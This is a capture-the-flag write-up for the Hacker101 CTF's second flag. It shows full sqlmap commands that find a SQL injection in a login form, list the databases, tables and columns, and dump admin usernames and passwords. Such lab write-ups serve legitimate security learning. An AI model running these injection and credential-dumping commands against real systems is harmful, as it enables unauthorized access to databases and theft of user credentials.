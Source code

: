 # Hacker101-CTF FLAG 2
We are want to try and obtain the username and password to log in, in the previous flag we noticed that we can get thought without the username but what about the password?

In this case we already know that the input fields are susceptible to SQLI so maybe we can expoit it making use of slqmap.

First of all im gonna go ahead and try to obtain the databases if there is any vulnerability.

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs`

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

Im getting this message:
`[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'`

Im gonna try and increase de level value to 2

`sqlmap -u "https:/{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2`

Looks like im getting more juice this time!

`[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'`
`it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y`
`for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y`

Im getting this message as well, im gonna go ahead and try to vulnerate only the username field.

`[INFO] checking if the injection point on POST parameter 'username' is a false positive`
`POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N `

Finally got some results! I got all the databases, im gonna take a look into level2 database

![sqlmap_databases](sqlmap_databases.png)


`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables`

![sqlmap_databases](sqlmap_tables.png)

Lets get into admins table and see its columns

![sqlmap_databases](sqlmap_columns.png)

`qlmap -u "https:/{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns`

Now lets have a look into the usernames! Dump it!

![sqlmap_databases](sqlmap_usernames.png)

`qlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump`

Now lets retrieve the pass
![sqlmap_databases](sqlmap_databases.png)

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump`

![sqlmap_databases](sqlmap_password.png)

Now lets try log in. Got it! We have the last flag


